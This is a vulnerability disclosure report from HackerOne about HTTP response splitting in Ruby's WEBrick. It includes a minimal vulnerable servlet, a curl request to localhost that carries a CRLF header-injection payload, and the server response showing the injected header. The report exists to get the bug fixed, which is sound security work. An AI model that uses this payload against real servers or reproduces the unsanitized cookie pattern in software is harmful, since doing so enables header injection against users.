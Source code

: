 # Response splitting vulnerability in WEBrick

## Report Details
- **Report ID**: 153794
- **URL**: https://hackerone.com/reports/153794
- **State**: Closed
- **Severity**: low
- **Submitted**: 2016-07-25T20:33:08.163Z
- **Disclosed**: 2018-04-29T02:01:36.166Z

## Reporter
- **Username**: tenderlove
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
Hi,

WEBrick seems to be vulnerable to a [response splitting attack](https://www.owasp.org/index.php/HTTP_Response_Splitting).  The reproduction script is very similar to the code shown on the owasp page:

```ruby
require 'webrick'

class MyServlet < ::WEBrick::HTTPServlet::AbstractServlet
  def service req, res
    res.cookies << WEBrick::Cookie.new('author', req.query['author'])
    res.body = 'hello world'
  end
end

server = ::WEBrick::HTTPServer.new Port: 8080
server.mount "/", MyServlet
trap('INT') { server.shutdown }
server.start
```

From the command line do:

```
$ curl -i localhost:8080/?author=Aaron%0D%0AX-Foo:%20hacked
```

The response looks like this:

```
HTTP/1.1 200 OK 
Server: WEBrick/1.3.1 (Ruby/2.4.0/2016-07-12)
Date: Mon, 25 Jul 2016 19:13:18 GMT
Content-Length: 11
Connection: Keep-Alive
Set-Cookie: author=Aaron
X-Foo: hacked

hello world
```

You can see the header has been injected.  I've attached a patch to fix the issue.

Note:  It seems like many Ruby webservers are vulnerable to this attack.  So we may need to coordinate release.

## Attachments
- fix_response_splitting.patch
